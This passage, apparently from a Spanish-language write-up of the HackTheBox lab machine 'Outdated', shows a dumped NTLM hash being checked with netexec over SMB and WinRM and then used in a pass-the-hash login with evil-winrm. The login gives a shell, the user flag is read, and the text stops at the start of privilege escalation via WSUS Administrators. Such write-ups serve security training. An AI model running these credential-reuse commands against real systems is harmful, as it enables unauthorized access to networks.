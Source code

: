 ```shell
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
PS C:\Users\btables\Documents> 
```

Y ahí obtenemos un hash NTLM

Lo podemos comprobar con `netexec`
```shell
nxc smb 10.129.229.239 -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5'
SMB         10.129.229.239  445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:outdated.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.239  445    DC               [+] outdated.htb\sflowers:1FCDB1F6015DCB318CC77BB2BDA14DB5
```

Y podemos comprobar también si efectivamente está en el grupo `Remote Management Users`
```shell
nxc winrm 10.129.229.239 -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5'
WINRM       10.129.229.239  5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:outdated.htb)
WINRM       10.129.229.239  5985   DC               [+] outdated.htb\sflowers:1FCDB1F6015DCB318CC77BB2BDA14DB5 (Pwn3d!)
```

Y ya podemos conseguir una consola como `sflowers`
```shell
evil-winrm -i 10.129.229.239 -u sflowers -H '1FCDB1F6015DCB318CC77BB2BDA14DB5'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sflowers\Documents> whoami
outdated\sflowers
```

También podemos leer la flag de usuario.
```shell
*Evil-WinRM* PS C:\Users\sflowers\Desktop> type user.txt
201cccf8d3ce2...
```

# Privilege Escalation
Enumerando la máquina, vemos que `sflowers` pertenece a un grupo llamado `WSUS Administrators`
